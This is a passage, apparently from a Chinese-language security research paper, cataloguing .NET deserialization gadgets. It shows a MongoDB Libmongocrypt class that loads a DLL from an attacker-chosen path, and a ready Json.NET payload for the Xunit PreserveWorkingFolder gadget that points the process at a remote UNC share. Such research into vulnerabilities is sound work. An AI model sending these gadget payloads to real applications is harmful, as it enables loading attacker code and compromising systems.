 这个小工具与 Grpc.Core 中存在的 `UnmanagedLibrary` 很相似。`MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary` 类实现了一个带有单参数的公共构造函数，接受攻击者提供的路径。

```bash
private class WindowsLibrary : LibraryLoader.ISharedLibraryLoader 
{ 
    public WindowsLibrary(string path) 
    { 
        this._handle = LibraryLoader.WindowsLibrary.LoadLibrary(path); // [1] 
        if (this._handle == IntPtr.Zero) 
        { 
            throw new LibraryLoadingException(path + ", Windows Error: " +  
Marshal.GetLastWin32Error().ToString()); 
        } 
    } 
    [DllImport("kernel32", CharSet = CharSet.Ansi, SetLastError = true)] 
    public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] 
string lpFileName); 

 ... 
}
```

代码段 48 WindowsLibrary constructor

在 \[1\] 处，它调用了 `kernel32!LoadLibrary` 并使用由攻击者控制的路径。根据这一点，攻击者可以加载远程本地 DLL 或任何本地 DLL。

`MongoDB.Libmongocrypt.LibraryLoader` 还实现了另外两个子类，它们也可以通过反序列化来滥用：

-   `LinuxLibrary`，调用 `libdl!dlopen`。
-   `DarwinLibraryLoader`，调用 `libdl!dlopen`。

#### 2.4 Xunit Execution – PreserveWorkingFolder

目标类：`Xunit.Sdk.TestFrameworkDiscoverer+PreserveWorkingFolder`

适用性（序列化器）：`Json.Net`、`XamlReader`、`MessagePack` 及其他潜在序列化器。

适用性（.NET）：.NET Framework（.NET>=5 未经验证）

最新测试版本：2.5.1

效果：更改进程的当前目录，导致 `winbase!SetCurrentDirectory` 调用。攻击者可以利用它来滥用基于相对路径的文件操作。

小工具（Json.NET）：

```bash
{ 
    "$type":"Xunit.Sdk.TestFrameworkDiscoverer+PreserveWorkingFolder,  
xunit.execution.desktop, Version=2.5.0.0, Culture=neutral,  
PublicKeyToken=8d05b1bb7a6fdb6c", 
    "assemblyInfo": 
    { 
        "$type":"Xunit.Xunit1AssemblyInfo, xunit.runner.utility.net452,  
Version=2.5.0.0, Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
        "assemblyFileName":"\\\\192.168.1.100\\poc\\poc" 
    } 
}
```
